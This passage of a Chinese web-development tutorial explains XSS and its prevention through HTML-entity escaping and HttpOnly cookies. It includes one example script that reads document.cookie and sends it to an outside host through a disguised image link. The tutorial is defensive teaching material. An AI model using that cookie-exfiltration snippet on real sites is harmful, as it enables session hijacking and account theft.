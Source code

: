 ```javascript
          console.log(`第${i + 1}张${err}`);
          return Promise.resolve();
        })
    )
  );
};

loadAllImage(imgUrls).then(() => {
  console.log("图片全部加载完毕");
});
```

## XSS 是什么，怎么防止 XSS

XSS(Cross-Site-Scripting)，跨站脚本攻击，也叫做脚本注入

当服务器完全信赖客户端提交的数据时，就可能发生脚本注入。例如，当用户提交表单时，提交了一段 script 代码，服务器将这段代码存储起来，下次其他用户访问时，这段代码被加载

在代码中我们可以获取用户 cookie，并将其发送到我们自己的服务器，例如下面就是一段简单的脚本

```javascript
var cookie = document.cookie; // 获取cookie
var a = document.createElement("a");
a.href = `http://www.tianzhich.com/test.php?secret=${cookie}`;
a.innerHTML = "<img src='./fake.jpg' alt=''/>"; // 伪装图片
document.body.appendChild(a);
```

当下次别的用户访问时，这段代码被记载，一旦用户不小心点击到伪装图片，cookie 就会被发送到我们的主机

从上面来看，防治 XSS 有两种主要方式

1. **防止特殊的字符出现**，这些字符主要是对于 HTML 文档有特殊意义的字符

   客户端表单数据值类型检测和验证

   服务器对用户提交的表单数据进行严格验证

   主要是将相应的符号转换成 HTML 实体字符，像`<`或者`>`这些字符是不允许出现在文本中的，因为他们对于 HTML 文档来说有特殊意义。如果我们要在 HTML 文档中展示这些字符，应该使用它们的转义字符，例如`<`转义字符为`&lt;`，所以客户端或者服务器应该将提交上来的这些字符进行编码，或者过滤掉这些字符

2. 让服务器将重要的 cookie 标记为`http-only`，也就是在 response header 中设置
   `set-cookie: xxx;HttpOnly`

这里分别使用 jQuery 和原生 JS 实现对特殊字符的加密和解密

```javascript
// jQuery
const htmlEncoderJq = (str) => {
  return $("<div>").text(str).html();
};
const htmlDecoderJq = (str) => {
  return $("<div>").html(str).text();
};
// JS
const htmlEncoderJs = (str) => {
  let div = document.createElement("div");
  div.textContent = str;
  return div.innerHTML;
};
const htmlDecoderJs = (str) => {
  let div = document.createElement("div");
  div.innerHTML = str;
  return div.textContent;
};
```
